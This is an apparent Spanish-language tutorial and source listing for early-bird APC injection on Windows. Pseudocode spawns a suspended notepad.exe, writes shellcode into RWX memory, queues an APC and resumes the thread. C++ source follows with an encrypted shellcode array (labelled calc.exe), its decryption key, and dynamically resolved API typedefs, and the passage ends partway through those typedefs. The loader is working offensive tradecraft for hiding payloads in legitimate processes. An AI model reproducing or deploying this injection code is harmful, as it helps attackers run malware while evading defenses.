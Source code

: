```c++
// 1. Creamos un nuevo proceso en el sistema operativo, en estado suspendido
PROCESS_INFORMATION pi
CreateProcessA(0, "notepad.exe", ..., CREATE_SUSPENDED, ..., &pi)

// 2. Reservamos memoria para nuestro shellcode en el mapa de memoria del nuevo proceso remoto
pRemoteCode = VirtualAllocEx(pi.hProcess,..., BufferSize,..., PAGE_EXECUTE_READWRITE)

// 3. Escribimos nuestro payload en el buffer reservado
WriteProcessMemory(pi.hProcess, pRemoteCode, Shellcode, ShellcodeSize,...)

// 4. Realizamos una invocación en APC
QueueUserAPC(pRemoteCode, pi.hThread, NULL)

// 5. Lanzamos un hilo de nuestro proceso apra que se ejecute el shellcode
ResumeThread(pi.hThread)
```

## Codigo fuente

```c++
#include <winternl.h>
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

// calc.exe
unsigned char payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
unsigned int payload_len = sizeof(payload);
unsigned char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };

// http://undocumented.ntinternals.net/UserMode/Undocumented%20Functions/Executable%20Images/RtlCreateUserThread.html
typedef struct _CLIENT_ID {
	HANDLE UniqueProcess;
	HANDLE UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef LPVOID (WINAPI * VirtualAlloc_t)(
	LPVOID lpAddress,
	SIZE_T dwSize,
```
